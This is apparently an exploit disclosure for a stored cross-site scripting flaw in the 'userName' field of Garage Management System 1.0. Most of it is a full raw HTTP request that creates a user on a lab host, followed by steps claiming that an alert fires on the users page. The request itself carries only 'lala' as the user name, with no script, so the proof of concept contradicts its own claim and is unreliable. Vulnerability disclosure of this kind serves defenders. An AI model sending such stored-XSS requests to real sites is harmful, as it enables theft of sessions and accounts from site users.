


# Garage Management System  - user_info  'userName' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Garage Management System  - user_info  'userName' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15485&title=Garage+Management+System+using+PHP%2FMySQL+Free+Source+Code
#### Version: Garage Management System  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Garage Management System does not filter the content correctly at the "userName" parameter, resulting in the generation of stored XSS.

#### Payload used:
```
POST /php_action/createUser.php HTTP/1.1
Host: 192.168.67.9
Content-Length: 565
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUD1Yb96WGEg9mpcD
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.9/add-user.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=sv8b900m4au6g31guodelu6tc9
Connection: close

------WebKitFormBoundaryUD1Yb96WGEg9mpcD
Content-Disposition: form-data; name="currnt_date"


------WebKitFormBoundaryUD1Yb96WGEg9mpcD
Content-Disposition: form-data; name="userName"

lala
------WebKitFormBoundaryUD1Yb96WGEg9mpcD
Content-Disposition: form-data; name="upassword"

123
------WebKitFormBoundaryUD1Yb96WGEg9mpcD
Content-Disposition: form-data; name="uemail"

123@qq.com
------WebKitFormBoundaryUD1Yb96WGEg9mpcD
Content-Disposition: form-data; name="create"


------WebKitFormBoundaryUD1Yb96WGEg9mpcD--


```


#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.9/users.php，We can see the alert.

   

   

   


